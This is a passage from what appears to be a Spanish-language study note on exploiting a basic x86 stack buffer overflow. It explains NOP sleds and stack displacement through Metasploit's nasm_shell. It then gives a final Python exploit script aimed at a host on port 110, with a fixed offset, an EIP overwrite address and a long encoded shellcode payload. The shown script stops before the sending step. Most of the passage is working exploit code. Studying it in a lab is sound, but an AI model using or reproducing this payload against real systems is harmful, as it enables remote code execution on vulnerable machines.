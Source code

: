 ### Por lo que, si quisiéramos hacer uso de NOPs simplemente deberíamos representar el byte *\\x90* varías veces, como 16 o 32 antes del shellcode.  
### Por otro lado, si quisiéramos hacer uso del desplazamiento de la pila simplemente podríamos hacer otra vez uso de la herramienta de metasploit **nasm_shell.rb** 

```bash
# NOPs 
nops = b"\x90"*32

# STACK DISPLACEMENT

/usr/share/matasploit-framework/tools/exploit/nasm_shell.rb 
# Entramos en modo interactivo y tipeamos: 
sub esp,0x10
# Esto nos arroja un OpCode (83EC10) decrementa el valor del puntero de pila 10 bytes 
stack_displacement = b"\x83\xEC\x10"

```

### De esta manera habríamos explotado un [[Buffer Overflow Basic x86]] en una arquitectura x86 (32 bits).

#### Script final: 
```python
#!/usr/bin/python3 

import socket
import sys 
from struct import pack 
ip = "192.168.1.34"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = pack("<L", 0x5f4a358f)
shellcode = (b"\xbd\xb9\xba\x5a\xae\xd9\xe5\xd9\x74\x24\xf4\x5f\x33\xc9"
b"\xb1\x52\x31\x6f\x12\x83\xc7\x04\x03\xd6\xb4\xb8\x5b\xd4"
b"\x21\xbe\xa4\x24\xb2\xdf\x2d\xc1\x83\xdf\x4a\x82\xb4\xef"
b"\x19\xc6\x38\x9b\x4c\xf2\xcb\xe9\x58\xf5\x7c\x47\xbf\x38"
b"\x7c\xf4\x83\x5b\xfe\x07\xd0\xbb\x3f\xc8\x25\xba\x78\x35"
b"\xc7\xee\xd1\x31\x7a\x1e\x55\x0f\x47\x95\x25\x81\xcf\x4a"
b"\xfd\xa0\xfe\xdd\x75\xfb\x20\xdc\x5a\x77\x69\xc6\xbf\xb2"
b"\x23\x7d\x0b\x48\xb2\x57\x45\xb1\x19\x96\x69\x40\x63\xdf"
b"\x4e\xbb\x16\x29\xad\x46\x21\xee\xcf\x9c\xa4\xf4\x68\x56"
b"\x1e\xd0\x89\xbb\xf9\x93\x86\x70\x8d\xfb\x8a\x87\x42\x70"
b"\xb6\x0c\x65\x56\x3e\x56\x42\x72\x1a\x0c\xeb\x23\xc6\xe3"
b"\x14\x33\xa9\x5c\xb1\x38\x44\x88\xc8\x63\x01\x7d\xe1\x9b"
b"\xd1\xe9\x72\xe8\xe3\xb6\x28\x66\x48\x3e\xf7\x71\xaf\x15"
b"\x4f\xed\x4e\x96\xb0\x24\x95\xc2\xe0\x5e\x3c\x6b\x6b\x9e"
b"\xc1\xbe\x3c\xce\x6d\x11\xfd\xbe\xcd\xc1\x95\xd4\xc1\x3e"
b"\x85\xd7\x0b\x57\x2c\x22\xdc\x98\x19\x2d\x3d\x71\x58\x2d"
b"\x3c\x3a\xd5\xcb\x54\x2c\xb0\x44\xc1\xd5\x99\x1e\x70\x19"
b"\x34\x5b\xb2\x91\xbb\x9c\x7d\x52\xb1\x8e\xea\x92\x8c\xec"
b"\xbd\xad\x3a\x98\x22\x3f\xa1\x58\x2c\x5c\x7e\x0f\x79\x92"
b"\x77\xc5\x97\x8d\x21\xfb\x65\x4b\x09\xbf\xb1\xa8\x94\x3e"
b"\x37\x94\xb2\x50\x81\x15\xff\x04\x5d\x40\xa9\xf2\x1b\x3a"
b"\x1b\xac\xf5\x91\xf5\x38\x83\xd9\xc5\x3e\x8c\x37\xb0\xde"
b"\x3d\xee\x85\xe1\xf2\x66\x02\x9a\xee\x16\xed\x71\xab\x37"
b"\x0c\x53\xc6\xdf\x89\x36\x6b\x82\x29\xed\xa8\xbb\xa9\x07"
b"\x51\x38\xb1\x62\x54\x04\x75\x9f\x24\x15\x10\x9f\x9b\x16"
b"\x31")
```